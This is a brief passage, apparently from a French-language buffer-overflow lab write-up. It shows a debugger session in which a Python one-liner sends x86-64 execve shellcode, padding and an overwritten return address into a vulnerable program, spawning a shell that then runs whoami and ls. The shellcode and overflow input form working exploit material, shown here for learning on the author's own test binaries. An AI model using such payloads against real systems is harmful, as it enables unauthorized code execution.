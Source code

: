 ```
Starting program: /usr/bin/dash $(python -c 'print("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "x" * 93 + "\xe0\xe1\xff\xff\xff\x7f\x00\x00")')
process 6807 is executing new program: /usr/bin/dash
$ whoami
[Detaching after vfork from child process 6814]
kali
$ ls  
[Detaching after vfork from child process 6815]
Desktop    Downloads  Pictures	Templates	bo_1  	bo_2
Documents  Music      Public		Videos	   	bo_1.c	bo_2.c
$
```

Et on a une ligne de commande.
